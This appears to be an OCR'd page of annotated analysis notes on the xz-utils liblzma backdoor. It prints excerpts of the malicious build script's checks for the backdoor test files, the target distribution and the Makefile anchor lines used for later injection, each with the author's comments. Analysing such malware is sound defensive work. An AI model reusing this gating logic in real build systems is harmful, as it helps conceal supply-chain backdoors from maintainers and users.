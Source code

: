 ```sh
    if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1;then
        exit 0
    fi
    if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1;then
        exit 0
    fi
```
- Check if backdoor files exists
- `p="good-large_compressed.lzma"`
- `U="bad-3-corrupt_lzma2.xz"`
- (If there is no backdoor files, how to access this procedure..?)

```sh
    if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64";then
        eval $zrKcst
```
- If `debian/rules` exists or `RPM_ARCH` is set to `xx86_64`, check below conditions.

```sh
        j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"
        if ! grep -qs "$j" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        z="^am__uninstall_files_from_dir = {"
        if ! grep -qs "$z" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        w="^am__install_max ="
        if ! grep -qs "$w" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        E=$z
        if ! grep -qs "$E" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        Q="^am__vpath_adj_setup ="
        if ! grep -qs "$Q" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        M="^am__include = include"
        if ! grep -qs "$M" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        L="^all: all-recursive$"
        if ! grep -qs "$L" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        m="^LTLIBRARIES = \$(lib_LTLIBRARIES)"
        if ! grep -qs "$m" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
        u="AM_V_CCLD = \$(am__v_CCLD_\$(V))"
        if ! grep -qs "$u" src/liblzma/Makefile > /dev/null 2>&1;then
            exit 0
        fi
```
- Check that `liblzma/Makefile` contains all the lines that will be used as anchor points later for inserting new text into the `Makefile`.
